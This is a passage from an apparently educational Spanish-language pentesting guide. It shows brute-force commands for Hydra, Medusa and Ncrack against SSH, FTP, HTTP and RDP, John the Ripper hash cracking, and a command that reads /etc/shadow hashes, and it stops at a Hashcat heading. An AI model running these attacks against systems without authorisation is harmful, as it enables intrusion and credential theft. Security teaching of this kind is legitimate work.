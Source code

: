 Hydra es una de las herramientas más potentes para ataques en línea contra SSH, FTP, HTTP, MySQL, y más.

```bash
hydra -L usuarios.txt -P passwords.txt 192.168.1.100 ssh
```

🔹 **Explicación:** Ataca el servicio SSH de la IP `192.168.1.100` probando combinaciones de usuario y contraseña.

Ejemplo para HTTP con formulario de inicio de sesión:

```bash
hydra -L usuarios.txt -P passwords.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error"
```

#### **2.1.2 Medusa - Alternativa a Hydra**

Medusa es otra herramienta de fuerza bruta eficiente y modular.

```bash
medusa -h 192.168.1.100 -U usuarios.txt -P passwords.txt -M ssh
```

🔹 **Explicación:** Ataca un servidor SSH usando la lista de usuarios y contraseñas.

#### **2.1.3 Ncrack - Ataques de Alta Velocidad a Servicios Remotos**

Ncrack es útil para atacar múltiples protocolos simultáneamente.

```bash
ncrack -p 22,21,3389 -U usuarios.txt -P passwords.txt 192.168.1.100
```

🔹 **Explicación:** Ataca SSH (22), FTP (21) y RDP (3389) en un servidor.

### **2.2 Descifrado de Contraseñas en Archivos (Offline)**

Estas herramientas permiten descifrar hashes de contraseñas obtenidos de bases de datos o archivos.

#### **2.2.1 John The Ripper - Descifrado de Hashes**

John The Ripper es una herramienta poderosa para descifrar hashes de contraseñas.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

🔹 **Explicación:** Usa `rockyou.txt` como diccionario para descifrar los hashes almacenados en `hashes.txt`.

Para obtener los hashes de usuarios en Linux:

```bash
sudo cat /etc/shadow | awk -F: '{print $1, $2}'
```

#### **2.2.2 Hashcat - Descifrado con GPU**
